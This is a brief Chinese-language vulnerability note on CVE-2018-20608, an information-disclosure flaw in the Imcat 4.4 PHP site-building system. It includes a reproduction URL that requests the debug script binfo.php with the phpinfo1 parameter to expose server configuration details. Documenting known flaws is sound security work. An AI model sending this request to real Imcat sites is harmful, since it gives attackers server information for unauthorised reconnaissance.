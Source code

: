 ```yaml
---
title: "（CVE-2018-20608）Imcat 4.4 敏感信息泄露"
id: zhfly2973
---
```


# （CVE-2018-20608）Imcat 4.4 敏感信息泄露

## 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本中存在安全漏洞。远程攻击者可借助root/tools/adbug/binfo.php?phpinfo1 URI利用该漏洞获取信息。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

```
http://www.0-sec.org/root/tools/adbug/binfo.php?phpinfo1 
```

![image](../img/163d968253f7c36944359c324595b905.png)

## 参考链接

> https://github.com/AvaterXXX/CVEs/blob/master/imcat.md